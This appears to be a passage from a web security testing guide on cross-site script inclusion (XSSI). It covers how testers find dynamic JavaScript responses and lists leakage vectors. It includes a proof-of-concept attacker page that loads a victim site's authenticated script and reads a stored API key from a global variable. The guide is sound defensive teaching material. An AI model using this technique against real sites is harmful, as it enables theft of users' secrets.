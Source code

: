 ## How to Test

### Collect Data Using Authenticated and Unauthenticated User Sessions

Identify which endpoints are responsible for sending sensitive data, what parameters are required, and identify all relevant dynamically and statically generated JavaScript responses using authenticated user sessions. Pay special attention to sensitive data sent using [JSONP](https://en.wikipedia.org/wiki/JSONP). To find dynamically generated JavaScript responses, generate authenticated and unauthenticated requests, then compare them. If they're different, it means the response is dynamic; otherwise it's static. To simplify this task, a tool such as [Veit Hailperin's Burp proxy plugin](https://github.com/luh2/DetectDynamicJS) can be used. Make sure to check other file types in addition to JavaScript; XSSI is not limited to JavaScript files alone.

### Determine Whether the Sensitive Data Can Be Leaked Using JavaScript

Testers should analyze code for the following vehicles for data leakage via XSSI vulnerabilities:

1. Global variables
2. Global function parameters
3. CSV (Comma Separated Values) with quotations theft
4. JavaScript runtime errors
5. Prototype chaining using `this`

### 1. Sensitive Data Leakage via Global Variables

An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim's website, `victim.com`, which is only accessible to authenticated users. An attacker configures a website, `attackingwebsite.com`, and uses the `<script>` tag to refer to the JavaScript file.

Here are the contents of `https://victim.com/internal/api.js`:

```javascript
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

The attack site, `attackingwebsite.com`, has an `index.html` with the following code:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```
